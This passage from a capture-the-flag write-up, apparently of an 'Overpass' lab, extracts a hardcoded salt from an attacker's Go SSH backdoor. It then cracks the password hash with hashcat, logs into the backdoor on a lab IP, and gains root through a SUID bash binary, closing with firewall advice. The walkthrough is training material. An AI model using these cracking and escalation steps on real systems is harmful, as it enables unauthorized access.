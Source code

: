 we can see that the program first assigns a default hash:

```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

as we proceed further, there's a function called ```verifyPass```:

```go
func verifyPass(hash, salt, password string)
```

towards the bottom of the program, we see that a hardcoded salt is passed to the function:

```go
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
```

do you remember the hash the attacker used to login to the backdoor? that hash had this salt hardcoded onto it. identifying the attacker's hash as ```SHA512($pass.$salt)```, we can now try crack it. this time, i used hashcat:

```
hashcat.exe -a 0 -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" C:\rockyou.txt --force
```

the password we get after the hash is cracked is "november16".


let's now login to the attacker's backdoor. our target IP is 10.10.12.175, and the backdoor was running on port 2222:

```
ssh -p 2222 james@10.10.12.175
```

![backdoor](/overpass-backdoor.png)

we are logged in as james, into the backdoor, and we can access the user.txt flag.

while we're here, let's run ```ls -la``` and see what we get.

![backdoor](/overpass-backdoor2.png)

we can see a root process called ```.suid_bash```. a quick google search shows that this little exploit opens a bash shell as root, meaning although an attacker may not be root, running the process will give them the effective privileges of root.

![bash](/overpass-suidbash.png)

so let's run this process by typing ```./.suid_bash -p``` and get the root flag.

![backdoor](/overpass-suidbash2.png)



uploading a php reverse shell via an upload form is a very simple and preventable attack vector. it can give an attacker direct access to the target. in this case, a backdoor was also set up, which should be prevented at all costs. a quick fix would have been to set up multiple firewalls (using iptables, ufw, or whichever linux firewall they choose) and having an implicit deny for all traffic other than what is specifically allowed. 
